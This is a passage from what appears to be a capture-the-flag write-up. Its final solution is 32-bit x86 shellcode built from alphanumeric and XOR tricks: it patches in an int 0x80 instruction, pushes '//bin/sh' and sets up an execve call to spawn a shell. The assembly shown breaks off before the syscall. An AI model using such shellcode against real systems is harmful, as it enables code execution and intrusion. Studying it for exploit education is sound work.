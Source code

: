 Oh, and I assembled the file with the `-z execstack` flag so the stack would be executable and then ran the program w/ gdb.

### Final Solution

Here's the assembly code I ended up using for my payload (I did some tactical re-ordering of operations when possible to save bytes )
```c
#include <sys/syscall.h>

.globl  main
.type   main, @function

main:

	// edx stores address of our note at this point!
	push %edx
	pop %eax
	xorb $0x40, %al
	push %eax
	pop %edx

	// GET CD
	pushw $0x7d7d
	pop %eax
	xorb %ah, (%edx)

	// GET 0x80
	inc %edx
	pushw $0x3030
	pop %eax
	xorb %ah, (%edx)

	// XOR BY FF
	push $0x41
	pop %eax
	xor $0x41, %al
	dec %eax
	xorb %ah, (%edx)
	dec %edx
	xorb %ah, (%edx)


	inc %eax
	// set edx = ecx = 0
	push %eax
	push %eax
	pop %edx
	pop %ecx

	// get //bin/sh on stack and referenced in ebx
	push %eax
	push $0x68732f6e
	push $0x69622f2f
	push %esp
	pop %ebx
	// step 3: get syscall number in eax
	push $74
	pop %eax
	xor $0x41, %al
        // Effective NOP-slide
	dec %edi
	dec %edi
	dec %edi
```